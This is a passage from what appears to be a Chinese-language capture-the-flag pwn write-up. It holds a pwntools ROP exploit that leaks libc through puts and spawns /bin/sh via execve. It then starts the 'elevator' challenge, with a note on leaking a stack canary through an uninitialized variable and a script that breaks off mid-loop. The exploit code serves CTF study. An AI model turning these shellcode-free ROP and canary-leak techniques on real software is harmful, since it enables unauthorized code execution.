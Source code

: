 ```py
payload=b'a'*0x38+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(pop_rdi)+p64(bss)+p64(gets_plt)+p64(pop_rsp)+p64(bss-0x18)
payload=payload.ljust(0xa00,b"a")
sl(payload)

libc_base=uu64()-libc.sym['puts']
lg("libc_base")
pop_rdx=libc_base+0x0000000000142c92
sys=libc_base+libc.sym['execve']
binsh=bss+0x40
payload=p64(pop_rdi)+p64(binsh)+p64(pop_rsi)+p64(0)*2+p64(pop_rdx)+p64(0)+p64(sys)+b"/bin/sh\x00"
sl(payload)
p.interactive()
```

### elevator

v1[0] 未初始化，因此我们可以通过alloca抬高栈，让v1[0]恰好指向残留的canary，然后输入字符，即可绕过scanf的读入，接下来printf 进行泄露。

![image-20231130170423826](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501050001079.png)

```py
from pwn import*
context.arch='amd64'
context.log_level='debug'
#p=remote("pwn.node.game.sycsec.com",31707)

s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

def mydbg():
    gdb.attach(p)
    pause()



while True:
    p=process('./elevator')
    libc=ELF("./libc.so.6")
    ru("Tell me your name so i can let you in:")
    sl("a"*0x58)

    ru("Please enter the floor you want to reach:")
    #mydbg()
    sl("23")

    ru("How long do you think you have to wait?")

    sl("-")
    msg=ru("!")
    if b'bad' in msg:
        p.close()
        continue
    float_num=ru("s")[:-1]
```